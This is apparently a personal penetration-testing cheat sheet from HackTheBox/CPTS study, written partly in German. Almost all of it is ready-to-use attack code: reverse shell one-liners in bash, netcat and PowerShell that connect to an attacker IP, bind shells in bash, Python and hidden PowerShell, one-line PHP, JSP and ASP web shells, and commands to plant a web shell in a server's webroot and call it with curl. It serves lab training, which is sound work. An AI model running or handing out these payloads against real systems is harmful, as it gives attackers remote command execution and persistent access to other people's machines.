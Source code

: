 # Reverse Shell

1. start `netcat` listener on a port of your choice
 ```
 nc -lvnp 1234
```

| Flag | Description                                                    |
| ---- | -------------------------------------------------------------- |
| `-l` | `Listen mode, to wait for a connection to connect to us.`      |
| `-v` | `Verbose mode, so that we know when we receive a connection.`  |
| `-n` | `Disable DNS Resolution and only connect via IPs, to speed up` |
| `-p` | `Port` netcat should be listening from                         |
2. Get your `own IP` to be able to send the connection to you (IP in tun0)
```
ip a
```

3.  Reverse Shell command for Linux, 2 options
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

3. Reverse Shell command for Powershell Windows
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```


# Bind Shell
Eine **Bind Shell** bedeutet, dass du auf einem entfernten Rechner eine Shell öffnest und sie an einen bestimmten Port bindest, sodass du dich von einem anderen Rechner aus damit verbinden kannst. Das bedeutet, dass der entfernte Rechner selbst als Server agiert, auf dem ein Listener läuft.

- IP 0.0.0.0 bedeutet, dass die Shell auf **allen** verfügbaren Netzwerk-Interfaces lauscht (also nicht nur auf einer bestimmten IP).
#### Commands to start a Bind Shell:
Bash:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```
Python
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
Powershell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

#### Connect to the Bindshell
```shell-session
nc 10.10.10.1 1234
```

## To be able to access the command history in a Shell we need to upgrade our TTY

1. upgrade the type of our shell to a full TTY
```shell-session
python -c 'import pty; pty.spawn("/bin/bash")'
```
2. After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:
```shell-session
www-data@remotehost$ ^Z

Hussware0@htb[/htb]$ stty raw -echo
Hussware0@htb[/htb]$ fg
```
3. Once we hit `fg`, it will bring back our `netcat` shell to the foreground. At this point, the terminal will show a blank line. We can hit `enter` again to get back to our shell or input `reset` and hit enter to bring it back. At this point, we would have a fully working TTY shell with command history and everything else.

# Web Shell
A `Web Shell` is typically a web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.

#### Web Shell Skript:


php
```php
<?php system($_REQUEST["cmd"]); ?>
```
jsp
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
asp
```asp
<% eval request("cmd") %>
```

#### Damir die Webshell funktioniert muss sie ins `Webroot-Verzeichnis` des Servers gespeichert sein, damit sie über den browser aufgerufen werden kann.  Z.b. kannst dud as Skript über eine Upload funktion hochladen.

|Web Server|Default Webroot|
|---|---|
|`Apache`|/var/www/html/|
|`Nginx`|/usr/local/nginx/html/|
|`IIS`|c:\inetpub\wwwroot\|
|`XAMPP`|C:\xampp\htdocs\|
Wenn du `RCE` hast, kannst du direkt ins Verzeichnis schreiben zb auf einen Linux Host running apache:
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

### Access your web shell

Over the browser:
![](CPTS/img/8ddc2f302e9bc18aea6a03765cdd10f0_MD5.jpeg)

Via curl:
```shell-session
curl http://SERVER_IP:PORT/shell.php?cmd=id
```
